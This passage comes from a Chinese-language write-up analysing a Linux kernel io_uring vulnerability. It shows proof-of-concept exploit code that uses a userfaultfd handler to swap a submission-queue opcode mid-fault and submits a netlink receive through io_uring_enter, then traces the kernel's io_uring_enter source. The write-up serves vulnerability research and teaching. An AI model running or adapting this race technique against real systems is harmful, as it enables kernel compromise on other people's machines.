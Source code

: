 ```
static void *uffd_thread(void *dummy) {                           
  struct uffd_msg msg;                                            
  int res = SYSCHK(read(uffd, &amp;msg, sizeof(msg)));                
  if (res != sizeof(msg)) errx(1, "uffd read");                   
  printf("got userfaultfd messagen");                            

  sqes[0].opcode = IORING_OP_SENDMSG;                             

  union {                                                         
    struct iovec iov;                                             
    char pad[0x1000];                                             
  } vec = {                                                       
    .iov = real_iov                                               
  };                                                              
  struct uffdio_copy copy = {                                     
    .dst = (unsigned long)iov,                                    
    .src = (unsigned long)&amp;vec,                                   
    .len = 0x1000                                                 
  };                                                              
  SYSCHK(ioctl(uffd, UFFDIO_COPY, &amp;copy));                        
  return NULL;                                                    
}
```

然后创建了一个netlink 的socket，用来对netlink路由做操作，传入的opcode是`IORING_OP_RECVMSG` (10), 调用`SYS_io_uring_enter` 提交到submission queue

```
int sock = SYSCHK(socket(AF_NETLINK, SOCK_DGRAM, NETLINK_ROUTE));
```

```
sqes[0] = (struct io_uring_sqe) {           
  .opcode = IORING_OP_RECVMSG,              
  .fd = sock,                               
  .addr = (unsigned long)&amp;msg               
};   
int submitted = SYSCHK(syscall(SYS_io_uring_enter, uring_fd, /*to_submit=*/1, /*min_complete=*/1, /*flags=*/IORING_ENTER_GETEVENTS, /*sig=*/NULL, /*sigsz=*/0));
```

okay 我们跟一下代码，看看具体发生了什么,`SYS_io_uring_setup` 主要是创建io_uring的fd，可以先不看。

主要看`SYS_io_uring_enter`系统调用，内核中函数实现是[`io_uring_enter`](https://elixir.bootlin.com/linux/v5.4/source/fs/io_uring.c#L3651)，我们设置了`to_submit=1`以及`flags=IORING_ENTER_GETEVENTS`, 会进入下面两个判断

```
} else if (to_submit) {
        to_submit = min(to_submit, ctx-&gt;sq_entries);

        mutex_lock(&amp;ctx-&gt;uring_lock);
        submitted = io_ring_submit(ctx, to_submit);
        mutex_unlock(&amp;ctx-&gt;uring_lock);
    }
    if (flags &amp; IORING_ENTER_GETEVENTS) {
        unsigned nr_events = 0;

        min_complete = min(min_complete, ctx-&gt;cq_entries);

        if (ctx-&gt;flags &amp; IORING_SETUP_IOPOLL) {
            ret = io_iopoll_check(ctx, &amp;nr_events, min_complete);
        } else {
            ret = io_cqring_wait(ctx, min_complete, sig, sigsz);
        }
    }
```
